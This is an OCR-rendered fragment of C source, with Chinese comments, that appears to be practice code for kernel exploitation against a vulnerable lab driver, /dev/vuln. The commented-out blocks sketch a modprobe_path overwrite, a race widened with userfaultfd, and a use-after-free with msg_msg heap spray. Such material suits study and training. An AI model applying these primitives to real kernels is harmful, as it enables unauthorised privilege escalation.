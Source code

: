```c

    //data.addr = modprobe_path;
    //data.val = fake_modprobe_path;

    //assert(ioctl(fd, VULN_WRITE, &data) == 0);
    //modprobe_exp();




    ///* 尝试使用userfaultfd扩大条件竞争
    // */
    //Data data;
    //long long buf;
    //uint64_t len;
    //pthread_t thread;

    //len = 0x1000;
    //assert((gfd1 = open("/dev/vuln", O_RDWR)) >= 0);

    //// 注册userfaultfd，并通过ur_thr触发page fault
    //assert((gaddr1 = mmap(NULL, len, PROT_READ | PROT_WRITE,
    //                    MAP_PRIVATE | MAP_ANONYMOUS, -1 ,0))
    //       != MAP_FAILED);
    //thread = userfaultfd_exp(gaddr1, len, uf_thread, uf_handler);

    //// 此时page fault还未处理完，条件竞争读取modprobe_path值
    //data.addr = modprobe_path;
    //data.val = (long long)&buf;
    //assert(ioctl(gfd1, VULN_READ, &data) == 0);
    //assert(buf != fake_modprobe_path);

    //// 等待uf_thr终止
    //assert(pthread_join(thread, NULL) == 0);
    //modprobe_exp();





    ///* 尝试利用struct msg_msg结构体
    // * 进行数据读取或写入
    // */
    //Data data;
    //char *kbuf1, *kbuf2;
    //int qid, size = 0x80;
    //assert((gfd1 = open("/dev/vuln", O_RDWR)) >= 0);

    //// 内核态申请0x80大小的内存
    //data.val = size;
    //assert(ioctl(gfd1, VULN_ALLOC, &data) == 0)
    //kbuf1 = (char *)data.addr;

    //// 制造UAF
    //assert(ioctl(gfd1, VULN_FREE, &data) == 0)

    //// 开始heap spray
    //qid = send_msg_str(size, "hhaawwkk1");

    //// 利用UAF修改struct msg_msg的m_ts字段
    //data.addr = (long long*)(kbuf1 + offsetof(struct msg_msg, m_ts));
    //data.val = 0x1000;
    //assert(ioctl(gfd1, VULN_WRITE, &data) == 0);
```